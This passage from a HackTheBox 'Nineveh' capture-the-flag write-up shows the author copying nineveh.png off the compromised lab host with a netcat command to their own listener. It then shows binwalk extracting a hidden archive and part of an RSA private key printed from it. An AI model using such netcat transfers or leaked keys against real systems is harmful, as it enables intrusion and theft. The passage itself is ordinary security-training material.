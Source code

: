 There seems to be an interesting `ninveh.png` file. Lets transfer the file over to our local machine and inspect it!

```bash
www-data@nineveh:/var/www/ssl/secure_notes$ nc 10.10.14.29 9999 < nineveh.png
nc 10.10.14.29 9999 < nineveh.png

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# nc -nlvp 9999 > nineveh.png
listening on [any] 9999 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.43] 50188

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# binwalk nineveh.png      

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# binwalk -e nineveh.png --run-as=root

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)

                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# ls
nineveh.png  _nineveh.png.extracted
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# cd _nineveh.png.extracted 
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh/_nineveh.png.extracted]
└─# ls
2BF8D0.tar  54  54.zlib  secret
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh/_nineveh.png.extracted]
└─# cd secret                
                                                                                                                      
┌──(root㉿shiro)-[/home/…/HackTheBox/Nineveh/_nineveh.png.extracted/secret]
└─# ls
nineveh.priv  nineveh.pub

┌──(root㉿shiro)-[/home/…/HackTheBox/Nineveh/_nineveh.png.extracted/secret]
└─# cat nineveh.priv
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
```